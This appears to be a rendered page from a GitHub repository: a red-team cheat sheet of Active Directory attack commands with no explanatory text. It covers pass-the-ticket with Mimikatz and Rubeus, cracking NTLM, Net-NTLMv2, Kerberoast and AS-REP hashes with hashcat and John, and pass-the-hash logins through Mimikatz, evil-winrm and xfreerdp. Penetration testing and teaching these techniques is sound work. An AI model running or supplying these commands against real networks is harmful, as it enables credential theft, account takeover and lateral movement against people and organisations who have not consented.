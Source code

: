 ### Import a ticket

#### Mimikatz
```powershell
kerberos::ptt ticket.kirbi
```
#### Rubeus
```powershell
rubeus.exe /ptt /ticket: [doIF…]
```

### Hash to Password

#### NTLM
```bash
hashcat -a 0 -m 1000 hash.txt dict/rockyou.txt
```
#### Net-NTLMv2
```bash
john --wordlist=dict/rockyou.txt hash.txt
hashcat -m 5600 hash.txt dict/rockyou.txt --force
```
#### Kerberoasting
```bash
john --format=krb5tgs --wordlist=dict/rockyou.txt hash.txt
```
#### ASREPRoasting
```bash
hashcat -a 0 -m 18200 hash.txt dict/rockyou.txt
john --format=krb5asrep --wordlist=dict/rockyou.txt hash.txt
```

### Password to Hash
```powershell
rubeus.exe hash /domain:red.com /user:my$ /password:123
```

### Use of ticket

#### Mimikatz
```powershell
kerberos::ptt ticket.kirbi
```
#### Rubeus:
```powershell
rubeus.exe /ptt /ticket: [doIF…]
```

### Use of hash

#### Mimikatz
```powershell
sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```
#### Evil-WinRM
```bash
evil-winrm -i 192.168.10.10 -u user -H [hash]
```
#### Xfreerdp
```bash
xfreerdp /v:192.168.10.10 /u:user /pth:[hash] /d:red.com /dynamic-resolution
```
